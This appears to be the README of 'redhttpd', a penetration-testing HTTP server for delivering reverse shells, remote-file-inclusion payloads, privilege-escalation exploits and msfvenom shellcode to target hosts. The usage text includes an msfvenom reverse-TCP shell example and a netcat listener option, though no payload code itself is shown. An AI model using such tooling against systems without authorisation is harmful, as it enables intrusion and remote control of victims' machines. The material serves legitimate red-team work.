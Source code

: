 # redhttpd

Forget "python -m SimpleHTTPServer". redhttpd implements - on top of SimpleHTTPServer ;) - a set of useful features for Red Teaming and Penetration Testing. This tool was designed to run on the "tester side" and make his/her life easier in recurring tasks such as:
	
	1. getting a reverse shell in restricted environments - such as when there's only 1
	    outbound port open on the target host - with a simple target side one-liner
	2. exploiting Remote File Inclusion (RFI) vulnerabilities
	3. transferring favorite/most used exploits and exploits' suggesters for privilege escalation
	4. creating and transferring msf shellcode
	5. transferring any file to the target host.

# Usage

```
usage: redhttpd.py [-h] [-a BINDING_ADDRESS] [-p PORT] [-d ROOT_DIRECTORY]
                   (-y [{sh,py,ps1}] | -r [{php,asp,aspx}] | -x [{suggesters,linux,windows,mac}] | -m [MSF_SHELL] | -f FILES [FILES ...])
                   [-e [EXTENSION]] [-c [{wget,curl,powershell}]] [-v {0,1,2}]
                   [--LHOST LHOST] [--LPORT LPORT] [--no-netcat]

RedTeam httpd.

optional arguments:
  -h, --help            show this help message and exit
  -a BINDING_ADDRESS, --binding-address BINDING_ADDRESS
                        Local address where to bind.
  -p PORT, --port PORT  Listening port.
  -d ROOT_DIRECTORY, --root-directory ROOT_DIRECTORY
                        Root directory.
  -y [{sh,py,ps1}], --yolo [{sh,py,ps1}]
                        YOLO mode. Copy custom payloads from the corresponding 'yolo/' directory to root directory. Use it to serve one request and shutdown. Useful when chained with netcat listening on the same port. Warning: With this option on, -p/--port value will always be used even if LPORT is set. E.g.: ./redhttpd.py -p 53 -y
  -r [{php,asp,aspx}], --rfi [{php,asp,aspx}]
                        RFI mode. Copy custom RFI payload from corresponding 'rfi/' directory to root directory. Default: php. Use with -e/--extension argument to remove or change file extension.
  -x [{suggesters,linux,windows,mac}], --exploits [{suggesters,linux,windows,mac}]
                        Exploits mode. Copy custom exploits from the corresponding 'exploits/' directory to root directory. The default value is: linux.
  -m [MSF_SHELL], --msf-shell [MSF_SHELL]
                        msfvenom mode. Use msfvenom to create a shellcode and serve it. Use it just like msfvenom without LHOST, LPORT and -o parameters. E.g.: ./redhttpd.py -m " -p linux/x86/shell_reverse_tcp -f elf" --LHOST 192.168.0.1 --LPORT 53. (msfvenom required)
  -f FILES [FILES ...], --files FILES [FILES ...]
                        Custom files mode. Simply copy desired files to root directory.
  -e [EXTENSION], --extension [EXTENSION]
                        Change files extension. Only useful when used with -r/--rfi.
  -c [{wget,curl,powershell}], --clipboard [{wget,curl,powershell}]
                        Copy wget/curl/powershell + URL string to clipboard. Default: wget. (xclip required)
  -v {0,1,2}, --verbosity {0,1,2}
                        Set verbosity level.
  --LHOST LHOST         Use to substitute host placeholder.
  --LPORT LPORT         Use to substitute port placeholder.
  --no-netcat           Disables default netcat used in YOLO mode. By default, in YOLO mode, a netcat listerner starts after httpd handler is closed, on the same port redhttpd was running. (netcat required)
```

# Examples
TODO